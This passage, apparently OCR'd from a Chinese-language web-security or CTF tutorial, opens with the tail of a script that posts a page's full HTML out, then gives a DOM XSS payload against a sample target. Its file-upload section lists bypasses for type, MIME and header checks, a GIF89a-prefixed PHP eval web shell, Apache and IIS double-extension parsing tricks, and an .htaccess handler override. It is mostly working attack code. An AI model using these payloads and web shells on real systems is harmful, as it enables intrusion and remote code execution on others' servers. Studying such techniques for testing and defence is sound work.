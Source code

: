 ```html
    body: document.documentElement.innerHTML
});
</script>
```

### DOM XSS

```javascript
// 存在漏洞的JavaScript代码
function showWelcome() {
    var name = location.hash.substr(1);
    document.getElementById('welcome').innerHTML = 'Welcome ' + name;
}

// 利用payload
http://target.com/page.html#<img src=x onerror=alert('XSS')>
```

## 文件上传挑战

### 绕过文件类型检查

```php
<?php
// 前端检查绕过
// 修改文件扩展名：shell.php -> shell.jpg
// 然后用Burp Suite拦截请求，改回.php

// 后端MIME类型检查绕过
// Content-Type: image/jpeg
// 但文件内容是PHP代码

// 文件头检查绕过
// 在PHP代码前添加图片文件头
GIF89a
<?php eval($_POST['cmd']); ?>
?>
```

### 双重扩展名绕过

```bash
# Apache解析漏洞
shell.php.jpg  # 可能被解析为PHP文件

# IIS解析漏洞
shell.asp;.jpg  # 分号后的内容被忽略
```

### .htaccess 绕过

```apache
# 上传.htaccess文件
<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>

# 然后上传shell.jpg（内容是PHP代码）
```
